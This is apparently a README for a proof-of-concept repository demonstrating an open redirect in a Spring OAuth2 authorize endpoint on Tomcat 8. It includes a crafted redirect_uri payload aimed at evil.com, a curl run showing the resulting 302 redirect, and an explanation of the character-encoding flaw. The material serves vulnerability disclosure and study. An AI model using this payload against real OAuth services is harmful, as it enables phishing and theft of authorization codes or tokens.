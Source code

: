 # oauth2-open-redirect-sample

## 1) start app

```
./gradlew bootRun

```

## 2) open the following url in your browser / curl

    http://localhost:8080/oauth/authorize?client_id=clientId&redirect_uri=http://evil.com%80@trusted.com&response_type=bogus

-> RESULT: `302 Redirect` to `evil.com` which can be seen in the curl output (see `Location` response header):

```
$ curl -v "http://localhost:8080/oauth/authorize?client_id=clientId&redirect_uri=http://evil.com%80@trusted.com&response_type=bogus"
  *   Trying ::1...
  * TCP_NODELAY set
  * Connected to localhost (::1) port 8080 (#0)
  > GET /oauth/authorize?client_id=clientId&redirect_uri=http://evil.com%80@trusted.com&response_type=bogus HTTP/1.1
  > Host: localhost:8080
  > User-Agent: curl/7.54.0
  > Accept: */*
  >
  < HTTP/1.1 302
  < Location: http://evil.com?@trusted.com?error=unsupported_response_type&error_description=Unsupported%20response%20types:%20%5Bbogus%5D
  < Content-Language: en-US
  < Content-Length: 0
  < Date: Fri, 25 Jan 2019 05:10:00 GMT
  <
  * Connection #0 to host localhost left intact
```

### Explanation:

Tomcat 8 defaults to `UTF-8` to decode request params. `%80` can't be decoded as it's an invalid `UTF-8` hence it gets replaced by `� `. This character isn't a valid in `ISO 8859-1` which is used to serialize headers. This character gets replaced with `?` which leads to open redirect whenever oauth2 redirects back to the resource service (in both _success_ or _error_ cases!!!).